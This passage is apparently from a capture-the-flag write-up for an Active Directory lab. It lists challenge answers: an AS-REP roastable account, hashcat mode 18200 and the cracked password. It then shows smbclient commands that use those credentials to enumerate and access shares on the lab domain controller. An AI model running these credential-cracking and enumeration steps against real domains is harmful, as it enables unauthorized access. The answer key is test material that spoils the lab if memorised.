 ```shell
Restore.Point....: 0/70188 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: m123456 -> pinkk
Hardware.Mon.#1..: Temp: 42c Util: 11% Core:1500MHz Mem:5500MHz Bus:8

Started: Wed Oct  9 18:37:17 2024
Stopped: Wed Oct  9 18:37:26 2024
```
<br>
> **Questions** : We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password ? <br>
> Answer : svc-admin 

> **Question** : Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name) <br>
Answer: Kerberos 5 AS-REP etype 23

> **Question** : What mode is the hash ? <br>
Answer : 18200

> **Question** : Now crack the hash with the modified password list provided, what is the user accounts password? <br>
Answer : management2005

## <span style="color: orange;"><b># Back to the Basics</b></span>

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out. To this we can use the smbclient tool :

```shell
smbclient -L \\\\10.10.230.172\\ -U 'svc-admin' -P 'management2005'
```
- pass the password we got cracked earlier 

```shell
Password for [WORKGROUP\svc-admin]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
```

- we can login to get the shell on smb using this command :

```shell
smbclient '\\spookysec.local\backup' -U svc-admin
```
When we log in, we will see a file named backup credentials.txt.
